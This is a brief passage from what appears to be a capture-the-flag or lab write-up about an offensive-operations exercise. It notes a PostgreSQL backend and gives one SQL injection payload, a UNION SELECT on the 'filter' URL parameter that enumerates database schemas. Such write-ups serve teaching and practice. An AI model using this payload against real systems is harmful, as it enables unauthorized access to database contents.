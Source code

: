 ![image](/assets/sans-offensive-ops-25/20250318234200.png)

I found the web app is using PostgreSQL as their database.

Figuring out the existing databases, I use the following payload against the `filter` parameter URL
```
paper' UNION select NULL,NULL,schema_name,NULL,NULL from INFORMATION_SCHEMA.SCHEMATA-- -
```
![image](/assets/sans-offensive-ops-25/20250318234348.png)
